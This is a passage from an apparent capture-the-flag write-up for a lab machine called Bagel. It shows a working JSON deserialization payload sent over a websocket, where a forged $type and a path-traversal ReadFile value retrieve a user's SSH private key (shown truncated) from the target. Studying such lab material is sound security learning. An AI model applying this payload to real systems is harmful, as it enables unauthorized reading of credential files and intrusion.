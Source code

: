 The first few times I read the code, I completely ignored the `RemoveOrder` getter and setter. At first glance, they do not appear to do anything.

![RemoveOrder](/assets/images/2023/03/Bagel/RemoveOrder.png "RemoveOrder")

This code was returning an object of any type. If I gave it a File object, I would be able to call ReadFile and give it anything I wanted. The hardest thing was giving it the correct type to load a File object, but all the needed information was in dnSpy.

![Bagel Type](/assets/images/2023/03/Bagel/BagelType.png "Bagel Type")

I used this to read phil's SSH key.

```python
order = {
    "RemoveOrder": {
        "$type": "bagel_server.File, bagel, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null",
        "ReadFile": "../../../../../home/phil/.ssh/id_rsa"
    },
}

ws = websocket.WebSocket()
ws.connect("ws://bagel.htb:5000/")
data = str(json.dumps(order))
print(data)
ws.send(data)
result = ws.recv()
print(result)
```

```bash
$ ./ws.py
{"RemoveOrder": {"$type": "bagel_server.File, bagel, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null", "ReadFile": "../../../../../home/phil/.ssh/id_rsa"}}
{
  "UserId": 0,
  "Session": "Unauthorized",
  "Time": "11:53:51",
  "RemoveOrder": {
    "$type": "bagel_server.File, bagel",
    "ReadFile": "-----BEGIN OPENSSH PRIVATE KEY-----\nb3B2 ... \n-----END OPENSSH PRIVATE KEY-----",
    "WriteFile": null
  },
  "WriteOrder": null,
  "ReadOrder": null
}
```
